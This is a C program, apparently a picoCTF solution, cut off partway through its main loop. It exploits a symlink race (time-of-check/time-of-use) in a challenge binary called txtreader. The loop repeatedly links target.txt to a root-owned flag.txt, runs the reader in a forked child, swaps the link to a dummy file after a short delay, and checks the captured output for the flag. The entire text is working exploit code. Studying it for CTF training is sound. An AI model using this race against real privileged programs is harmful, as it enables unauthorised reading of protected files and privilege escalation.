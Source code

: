 ```
#include <sys/types.h>
#include <sys/wait.h>
#include <stdio.h>
#include <unistd.h>
#include <stdbool.h>
#include <fcntl.h>
#include <string.h>

int main(void) {
    // Create the dummy flag file
    FILE *fp = fopen("./dummy_flag.txt", "w");
    if (!fp) {
        return 1;
    }
    fputs("dummyFlag{just_a_place_holder}", fp);
    fclose(fp);

    // Start the attack
    bool droppedFlag = false;
    while (!droppedFlag) {
        // Step 1: Link target to the root-owned flag file
        unlink("./target.txt");
        symlink("./flag.txt", "./target.txt");

        // Fork the process
        pid_t pid = fork();
        if (pid == 0) {
            // Child process: execute txtreader with output redirection

            // Redirect output to output.txt
            int out_fd = open("output.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);
            if (out_fd == -1) {
                perror("open");
                return 1;
            }
            dup2(out_fd, STDOUT_FILENO);
            dup2(out_fd, STDERR_FILENO);
            close(out_fd);

            // Execute the txtreader binary
            execlp("./txtreader", "./txtreader", "./target.txt", NULL);
            _exit(1); // Only reached if execlp fails
        }

        // Introduce a small delay to help with race timing
        usleep(100); // Sleep for 100 microseconds, adjust based on your system's timing

        // Step 2: Replace symlink to point to dummy_flag.txt
        unlink("./target.txt");
        symlink("./dummy_flag.txt", "./target.txt");

        // Wait for the child process to complete
        int status;
        waitpid(pid, &status, 0);

        // Step 3: Read the redirected output, check if the flag was dumped
        fp = fopen("./output.txt", "r");
        if (fp) {
            char buf[100];
            if (fgets(buf, sizeof(buf), fp)) {
                if (strncmp(buf, "picoCTF", 7) == 0) {
                    droppedFlag = true;
                }
```